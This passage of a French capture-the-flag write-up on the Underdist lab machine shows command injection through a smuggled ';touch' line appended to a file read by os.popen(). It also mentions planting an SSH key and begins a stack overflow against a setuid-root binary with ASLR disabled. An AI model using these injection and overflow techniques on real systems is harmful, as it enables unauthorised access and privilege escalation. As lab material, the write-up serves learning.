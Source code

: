 On n'a aucune indication que le script soit lancé par une crontab mais on voit qu'il est possible d'injecter une commande sur le `os.popen()` si on ajoute une ligne à la fin du fichier `ips.txt`.

J'ajoute cette ligne :

```bash
;touch /tmp/hellothere
```

Et une minute plus tard mon fichier est créé avec les droits de l'utilisateur `underdist` :

```
-rw-r--r--  1 underdist underdist    0 dic 31 11:47 hellothere
```

Je modifie ma commande afin quelle rajoute ma clé publique dans le `authorized_keys` de `underdist`.

## A l'ancienne

Une fois connecté, dans le dossier personnel de l'utilisateur je trouve un dossier caché `.bin` avec un binaire setuid root à l'intérieur :

```
./.bin:
total 16
drwx------ 2 underdist underdist 4096 oct 27  2014 .
drwxr-xr-x 4 underdist underdist 4096 oct 27  2014 ..
-rwsr-xr-x 1 root      root      4986 oct 27  2014 echo
```

Ce binaire semble vraiment basique :

```shellsession
underdist@Underdist:~$ strings .bin/echo 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
strcpy
puts
__libc_start_main
GLIBC_2.0
PTRh
QVhL
[^_]
;*2$"
Tiene correo nuevo en /var/mail/underdist
underdist@Underdist:~$ cat /proc/sys/kernel/randomize_va_space 
0
```

L'ASLR est aussi désactivé. Reste à voir si il y a des canari pour protéger la stack :

```shellsession
underdist@Underdist:~$ .bin/echo `python -c 'print "A"*400'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Violación de segmento
underdist@Underdist:~$ dmesg | tail -1
[ 5182.001067] echo[5276]: segfault at 41414141 ip 41414141 sp bffff620 error 4
```
